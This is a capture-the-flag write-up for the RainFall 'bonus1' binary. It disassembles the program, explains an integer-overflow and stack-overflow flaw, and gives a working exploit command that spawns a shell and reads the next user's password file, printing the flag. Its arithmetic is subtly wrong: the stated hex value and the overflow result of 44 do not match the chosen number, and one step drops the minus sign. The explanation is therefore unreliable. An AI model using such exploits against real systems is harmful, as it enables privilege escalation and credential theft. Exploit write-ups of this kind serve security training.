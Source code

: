 # Bonus1

## **Binary Analysis**

After examining the binary with GDB, we find that the program takes two command-line arguments.

- The **first argument** should be a number, which is converted using **`atoi()`** and then checked.
    - If **`number > 9`**, the program exits with **`return 1`**.
    - Otherwise, if **`number <= 9`**, the program calculates a size of **`number * 4`** for a **`memcpy()`** operation.
- The **second argument** should be a string, which is used as the source in the **`memcpy()`** operation.

```nasm
[...]
0x0804842a <+6>:	sub    $0x40,%esp  ; Allocate 64 bytes on stack
0x0804842d <+9>:	mov    0xc(%ebp),%eax ; argv[1]
0x08048430 <+12>:	add    $0x4,%eax
0x08048433 <+15>:	mov    (%eax),%eax
0x08048435 <+17>:	mov    %eax,(%esp)
0x08048438 <+20>:	call   0x8048360 [atoi@plt](mailto:atoi@plt) ; Convert to integer
0x0804843d <+25>:	mov    %eax,0x3c(%esp) ; Store result
0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp) ;Compare with 9
0x08048446 <+34>:	jle    0x804844f <main+43> ;Jump if less or equal
0x08048448 <+36>:	mov    $0x1,%eax ;Return 1 if > 9
0x0804844d <+41>:	jmp    0x80484a3 <main+127>
0x0804844f <+43>:	mov    0x3c(%esp),%eax
0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx ;Multiply by 4
0x0804845a <+54>:	mov    0xc(%ebp),%eax ;argv[2]
0x0804845d <+57>:	add    $0x8,%eax
0x08048460 <+60>:	mov    (%eax),%eax
0x08048462 <+62>:	mov    %eax,%edx
0x08048464 <+64>:	lea    0x14(%esp),%eax ;Destination buffer
0x08048468 <+68>:	mov    %ecx,0x8(%esp);Size (num * 4)
0x0804846c <+72>:	mov    %edx,0x4(%esp); Source
0x08048470 <+76>:	mov    %eax,(%esp)
0x08048473 <+79>:	call   0x8048320 [memcpy@plt](mailto:memcpy@plt)
0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp);Compare with 0x574f4c46
0x08048480 <+92>:	jne    0x804849e <main+122> ; Jump if not equal
0x08048482 <+94>:	movl   $0x0,0x8(%esp) ; If equal, execute shell
0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
0x08048492 <+110>:	movl   $0x8048583,(%esp)
0x08048499 <+117>:	call   0x8048350 [execl@plt](mailto:execl@plt)
[...]
```

After the **`memcpy()`** operation, the program checks if a specific location in memory (where it stored the integer from the first argument) matches a particular value (**`0x574F4C46`**).

- If the check passes, the program calls **`execl`** to execute **`/bin/sh`**, effectively giving us a command shell.

## **Vulnerability**

- **Input Validation Flaw**
    - **`atoi()`** can convert negative numbers.
    - The check only ensures **`number > 9`**, ignoring negative values.
- **Integer Overflow**
    - A negative **`number`** multiplied by 4 can overflow.
    - This may create an unintended large positive size.
- **Buffer Overflow Potential**
    - The buffer is **40 bytes**.
    - **`memcpy()`** can exceed this limit if **`number * 4`** is too large.
    - This may overwrite stack memory.
- **Overwriting Critical Variable**
    - The **`number`** variable is stored after the buffer.
    - By overwriting it with **`0x574F4C46`**, we trigger shell execution.
    
    ```nasm
    |---------------------------|
    | Return Address            | <-- Top of the stack (higher memory addresses)
    |---------------------------|
    | Saved Base Pointer (EBP)  |
    |---------------------------|
    | number (4 bytes)          | <-- Stored at EBP - 4
    |---------------------------|
    | buffer[40]                | <-- Starts at EBP - 44
    |                           |
    |                           |
    |                           |     
    |                           |
    |                           |
    |                           |
    |                           |
    |                           |
    |---------------------------|
    | (Possible padding)        |
    |---------------------------|
    ```
    

## **Exploit**

To exploit the integer overflow and buffer overflow vulnerabilities to overwrite the target variable with **`0x574F4C46`**, so that the program executes a shell

**Step 1: Choose the Right Number**

- **Objective:** Find a number that, when converted by **`atoi`**, is less than or equal to 9, but when multiplied by 4 results in a large positive number due to integer overflow.
- **Solution:** Use the number -**`1073741809`**. Here's why:
    - **Converting to Integer:**
        - **`atoi("-1073741809")`** returns -**`1073741809`**.
        - This number is **less than 9**, so it passes the check.
    - **Multiplying by 4:**
        - When the program multiplies -**`1073741809 * 4`**, due to integer overflow in a 32-bit system, the result is **`44`**.
        - **Explanation of the Overflow:**
            - In a 32-bit signed integer representation, -**`1073741809`** is **`0xC0000011`**.
            - Multiplying by 4 shifts the bits, causing the sign bit to be lost and wrapping around to a small positive integer.
            
            **Multiply by 4 (equivalent to shifting left by 2):**
            
            ```
            Original:  11000000000000000000000000010001 (-1073741809)
            Times 4:   1100000000000000000000000001000100
            
            In 32-bit system, we only keep the rightmost 32 bits:
            Result:      00000000000000000000000000101100 (44 in decimal)
            ```
            

**Step 2: Craft the Payload**

- **Objective:** Create an input that, when copied into the buffer, will overwrite the critical variable with the value **`0x574F4C46`** (which represents **`"FLOW"`** in ASCII).
- **Buffer Details:**
    - The buffer starts at a certain address in memory (we'll refer to this as the buffer's starting point).
    - The critical variable we need to overwrite is located **44 bytes** after the buffer's starting point.
- **Creating the Payload:**
    - **Padding:** We need to fill the buffer with 40 bytes of arbitrary data to reach the critical variable. We'll use **`"A"`** repeated 40 times.
        
        ```python
        padding = "A" * 40
        ```
        
    - **Overwriting the Critical Variable:**
        - We need to write the bytes representing **`0x574F4C46`** in little-endian format (least significant byte first) to overwrite the variable.
            - Little-endian representation of **`0x574F4C46`** is **`"\x46\x4C\x4F\x57"`**.
        
        ```python
        overwrite = "\x46\x4C\x4F\x57"
        ```
        
    - **Complete Payload:**
        - The payload is the padding plus the overwrite value.
        
        ```python
        payload = padding + overwrite
        ```
        

**Step 3: Execute the Exploit**

- **Command Line Execution:**
    - We run the program with the first argument as **`1073741809`** and the second argument as our payload.
        
        ```bash
        ./bonus1 -1073741809 $(python -c 'print "A"*40 + "\x46\x4C\x4F\x57"')
        ```
        

**Step 4:the resulte**

```nasm
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c 'print "A"*40 + "\x46\x4C\x4F\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$
```

## **Flag**

```nasm
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```